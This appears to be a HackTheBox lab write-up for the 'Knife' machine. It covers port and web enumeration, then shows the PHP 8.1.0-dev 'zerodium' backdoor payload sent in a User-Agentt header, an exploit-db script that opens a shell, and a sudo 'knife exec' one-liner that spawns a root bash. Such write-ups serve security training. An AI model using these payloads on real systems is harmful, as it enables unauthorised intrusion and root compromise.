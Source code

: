 ```yaml
---
title: "Knife"
date: 2021-08-29 13:55:00 +0530
categories: [HackTheBox, Linux Machines]
tags: [linux, zerodium, knife, hackthebox]
image: /assets/img/Posts/Knife/Knife.png
---
```

**Knife** is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP: **PHP/8.1.0-dev**. 
This vulnerability is leveraged to obtain the foothold on the server. 
A **sudo** misconfiguration is then exploited to gain a root shell.
# Nmap
```bash
$ nmap -sVC -v --min-rate 1000 -p- -oN nmap-fullscan.out
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.083s latency).
Not shown: 65142 closed ports, 391 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Web enumeration
## Directory brute forcing
```bash
$ ffuf -u http://10.10.10.242/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -e .php,.html,.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.242/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Extensions       : .php .html .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

index.php               [Status: 200, Size: 5815, Words: 646, Lines: 221]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 5815, Words: 646, Lines: 221]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10]
```
## Nikto
```bash
$ nikto -h 10.10.10.242
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2021-07-01 14:35:11 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
```

# Zerodium exploit
An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021.
Two malicious commits were pushed to the php-src repo from the names of Rasmus Lerdorf and Nikita Popov. Everything pointed towards a compromise of the git.php.net server.
These are the two malicious commits.
[https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)

This indicates that an attacker can execute arbitrary code by sending the `User-Agentt` header. 
To exploit manually, just pass the another header:
```html
User-Agentt: zerodiumsystem(whoami);
```

Or you can use the following exploit uses the backdoor to provide a pseudo shell on the host.
[https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933) 
```bash
$ python3 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james
```

# Privesc with Knife utility
Checking out `sudo` permissions for user james shows some tool called `knife`. 
```bash
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
- `knife --help` gives us a lot of options which can be helpful, most lucrative of all is `exec`:

```bash
$ knife --help

Chef Infra Client: 16.10.8
Docs: https://docs.chef.io/workstation/knife/
[..snip..]
		
** EXEC COMMANDS **
knife exec [SCRIPT] (options)

[..snip..]
```
- `--help` does not specify which script it runs, which is clearly mentioned in their documentation online: [https://docs.chef.io/workstation/knife_exec](https://docs.chef.io/workstation/knife_exec)

> _"Use the knife exec subcommand to execute Ruby scripts in the context of a fully configured Chef Infra Client. This subcommand has the following options: ``-E CODE, --exec CODE`` A string of code to be executed."_

There are three ways to use knife exec to run Ruby script files. For example:
```knife exec /path/to/script_file```
or:
```knife exec -E 'RUBY CODE'```

- Grab a stabilized shell using `id_rsa` in `/home/james/.ssh/id_rsa` or a reverse-shell.
```bash
$ sudo /usr/bin/knife exec -E 'system("/bin/bash -pi")'
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/# 
```
